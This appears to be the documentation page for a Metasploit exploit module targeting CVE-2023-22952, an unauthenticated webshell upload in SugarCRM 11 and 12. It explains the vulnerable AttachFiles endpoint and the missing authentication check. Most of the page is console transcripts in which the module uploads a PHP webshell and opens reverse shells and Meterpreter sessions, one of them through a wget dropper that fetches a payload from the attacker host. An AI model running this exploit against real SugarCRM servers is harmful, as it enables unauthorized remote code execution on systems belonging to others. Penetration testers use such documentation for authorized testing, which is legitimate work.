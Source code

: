 ## Vulnerable Application

This module exploits CVE-2023-22952, a Remote Code Execution (RCE) vulnerability in SugarCRM 11.0 Enterprise,
Professional, Sell, Serve, and Ultimate versions prior to `11.0.5` and SugarCRM 12.0 Enterprise, Sell, and
Serve versions prior to `12.0.2`.

The vulnerability occurs due to a lack of appropriate validation when uploading a malicious `PNG` file with
embedded PHP code to the `/cache/images/` directory on the web server using the vulnerable endpoint
`/index.php?module=EmailTemplates&action=AttachFiles`. Once uploaded to the server, depending on server configuration,
the attacker can access the malicious PNG file via HTTP or HTTPS, thereby executing the malicious PHP code and
gaining access to the system.

This vulnerability does not require authentication because there is a missing authentication check in the
`loadUser()` method in `include/MVC/SugarApplication.php`. After a failed login, the session does not get
destroyed and hence the attacker can continue to send valid requests to the application. See this
[AttackerKB Article](https://attackerkb.com/topics/E486ui94II/cve-2023-22952) for more details.

Because of this, any remote attacker, regardless of authentication, can exploit this vulnerability to gain
access to the underlying operating system as the user that the web services are running as (typically `www-data`).

Installing a vulnerable test bed requires a Linux machine with the vulnerable SugarCRM software loaded.
Follow instructions [here](https://support.sugarcrm.com/Documentation/Sugar_Versions/11.0/Ent/Installation_and_Upgrade_Guide/),
but you need to be registered as a sugarcrm customer in order to access the software.
This module has been tested against a SugarCRM installation with the specifications listed below:

* SugarCRM Enterprise Edition
* Version: `11.0.4`
* Build: `300`
* Linux OS: Debian 8.6

## Verification Steps

1. `use exploit/multi/http/sugarcrm_webshell_cve_2023_22952`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-PHP, 1-Unix command or 2-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options

### WEBSHELL
You can use this option to set the filename and extension of the webshell.
This is handy if you want to test the webshell upload and execution with different file extensions (.phtml, .php7, .inc)
to bypass any security settings on the Web and PHP server.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios

### SugarCRM 11.0.4 Enterprise Build 300 on Debian 8.6 - PHP Meterpreter session
```
msf6 > use exploit/multi/http/sugarcrm_webshell_cve_2023_22952
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > options

Module options (exploit/multi/http/sugarcrm_webshell_cve_2023_22952):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       SugarCRM base url
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host
   WEBSHELL                    no        The name of the webshell with extension to trick the parser like .phtml, .phar, etc. Webshell
                                         name will be randomly generated if left unset.


   When TARGET is not 0:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or
                                        0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set target 0
target => 0
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.100.180
[+] Deleted cXSbMSaTtcnn.phtml
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:52584) at 2023-02-15 14:11:23 +0000

meterpreter > sysinfo
Computer     : sugarcrm
OS           : Debian 8.6 (Linux 2.6.32)
Meterpreter  : php/linux
meterpreter > getuid
Server username: www-data
meterpreter > exit
```

### SugarCRM 11.0.4 Enterprise Build 300 on Debian 8.6 - bash reverse shell
```
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set target 1
target => 1
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted RPXrYGLCvGjL.phar
[*] Command shell session 2 opened (127.0.0.1:4444 -> 127.0.0.1:52584) at 2023-01-19 19:14:56 +0000

whoami
www-data
exit
```

### SugarCRM 11.0.4 Enterprise Build 300 on Debian 8.6 - Linux Meterpreter session
```
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set target 2
target => 2
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.100.254:8080/aLYDt2
[*] Client 127.0.0.1 (Wget/1.16 (linux-gnu)) requested /aLYDt2
[*] Sending payload to 127.0.0.1 (Wget/1.16 (linux-gnu))
[*] Sending stage (3045348 bytes) to 127.0.0.1
[+] Deleted ZxGTSVGsOUZs.phtml
[*] Meterpreter session 3 opened (127.0.0.1:4444 -> 127.0.0.1:43076) at 2023-01-19 19:16:07 +0000
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : sugarcrm
OS           : Debian 8.6 (Linux 2.6.32)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter > exit
```

## Limitations
No `check` method.
